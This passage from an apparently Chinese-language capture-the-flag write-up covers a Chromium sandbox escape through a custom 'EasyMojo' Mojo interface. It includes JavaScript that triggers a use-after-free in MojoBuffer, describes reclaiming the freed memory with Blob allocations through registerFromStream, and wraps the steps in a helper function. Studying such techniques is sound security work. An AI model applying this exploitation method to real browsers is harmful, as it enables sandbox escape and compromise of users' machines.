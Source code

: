 ##### sandbox escape

mojo接口的调用非常简单，包含了必要的MojoJS文件之后按照以下形式调用即可：

```js
let easy_mojo_ptr_ = new blink.mojom.EasyMojoPtr();
Mojo.bindInterface(
    blink.mojom.EasyMojo.name,
    mojo.makeRequest(easy_mojo_ptr_).handle,
    "context"
);

// easy_mojo_ptr_.allocBuffer();
// easy_mojo_ptr_.freeBuffer();
// easy_mojo_ptr_.putData("");
// easy_mojo_ptr_.getData();
```

漏洞前面已经分析过了，知道怎么使用接口之后就可以写出对应的POC代码：

```js
easy_mojo_ptr_.allocBuffer();
easy_mojo_ptr_.freeBuffer();
easy_mojo_ptr_.putData("");
```

按照这个顺序调用即可触发crash。

通过源代码可以知道，触发UAF漏洞的类是`MojoBuffer`，这个类大小是0x1010，类的size足够大会很好进行占位。只要在`freeBuffer`调用之后申请同等大小的Blob缓冲区，一般都可以直接命中。而Blob的申请不是直接通过`new Blob`，通行的做法是使用`BlobRegistryPtr.registerFromStream`接口，使用这个接口进行占位成功率会很高。

我简单封装了一下UAF的操作：

```js
function UAF(){
    let easy_mojo_ptr_ = new blink.mojom.EasyMojoPtr();
    Mojo.bindInterface(
        blink.mojom.EasyMojo.name,
        mojo.makeRequest(easy_mojo_ptr_).handle,
        "context"
    );

    easy_mojo_ptr_.allocBuffer();
    easy_mojo_ptr_.freeBuffer();
    easy_mojo_ptr_.putData();
    easy_mojo_ptr_.getData();

    this.ptr = easy_mojo_ptr_;
    this.alloc = () => this.ptr.allocBuffer();
    this.trigger = () => this.ptr.putData("");
    this.free = () => this.ptr.freeBuffer();

    return this;
}
```
